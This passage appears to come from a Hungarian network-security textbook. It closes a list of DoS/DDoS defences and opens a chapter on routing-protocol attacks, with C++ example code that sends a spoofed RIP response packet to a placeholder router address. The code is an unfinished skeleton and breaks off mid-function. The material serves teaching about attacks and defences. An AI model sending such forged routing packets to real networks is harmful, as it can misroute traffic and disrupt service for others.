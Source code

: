 1. **Forgalomfigyelés és elemzés**: Az IDS és IPS rendszerek folyamatosan figyelik a hálózati forgalmat és felismerik a rendellenes viselkedést.
2. **Szűrők és tűzfalak beállítása**: Megfelelő tűzfal és router beállításokkal a nemkívánatos forgalom szűrésére.
3. **Rate Limiting és QoS**: Az erőforrás-hozzáférés szabályozása időegységenként korlátozott számú kérés fogadásával (Rate Limiting) és a forgalmi előnyben részesítési szabályok (QoS) beállításával.
4. **Felosztott infrastruktúra**: Használata a támadás hatásait minimalizálni. Az elosztott adattároló és felhő alapú szolgáltatások segítenek a túlterhelést elosztani.
5. **Biztonsági frissítések és patch-ek**: Rendszeresen aktualizált szoftverek és firmware a sebezhetőségek kihasználásának csökkentésére.

A fent bemutatott módszerek és technikák külön-külön vagy együttesen alkalmazva növelhetik a hálózati rendszerek védelmét a DoS és DDoS támadások ellen.

### Routing protokoll támadások és védelmi mechanizmusok

A routing protokollok alapvető szerepet játszanak a hálózati adatforgalom irányításában, azonban különféle támadásokkal szemben sebezhetők lehetnek, amelyek megzavarhatják a hálózat működését vagy kompromittálhatják annak biztonságát. Ebben a fejezetben részletesen megvizsgáljuk a routing protokollokkal szemben alkalmazott támadások különböző típusait, valamint a védelmi mechanizmusokat, amelyekkel ezek a támadások mitigálhatók. 

#### Routing protokoll támadások

**1. Routing Information Protocol (RIP) támadások**

A RIP egy távolságvektor protokoll, amely az IP hálózatok között lévő útvonalak meghatározására szolgál. E protokoll egyszerűsége révén számos támadási pontot kínál.

**Hamis routing információk beillesztése (False Routing Information Injection)**

A támadó hamis routing információkat küldhet a hálózaton, amely tévesen irányítja az adatforgalmat. E támadások általában a RIP protokoll gyengeségeit használják ki, mivel a RIP nem hitelesíti az üzeneteket.

**C++ példakód a hamis routing információk beillesztéséhez**:
```cpp
#include <iostream>
#include <fstream>
#include <cstring>
#include <arpa/inet.h>
#include <netinet/in.h>
#include <sys/socket.h>

void sendSpoofedRIPPacket() {
    int sockfd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
    if (sockfd < 0) {
        perror("Error creating socket");
        return;
    }

    struct sockaddr_in dest_addr;
    memset(&dest_addr, 0, sizeof(dest_addr));
    dest_addr.sin_family = AF_INET;
    dest_addr.sin_port = htons(520);  // RIP uses port 520
    inet_pton(AF_INET, "192.168.1.1", &dest_addr.sin_addr);  // Set to target IP

    // Construct RIP packet
    char rip_packet[512];
    memset(rip_packet, 0, sizeof(rip_packet));
    rip_packet[0] = 2;  // RIP version 2
    rip_packet[1] = 2;  // Command: Response
    // Fill the rest with false routing information

    if (sendto(sockfd, rip_packet, sizeof(rip_packet), 0, (struct sockaddr*)&dest_addr, sizeof(dest_addr)) < 0) {
        perror("Error sending packet");
```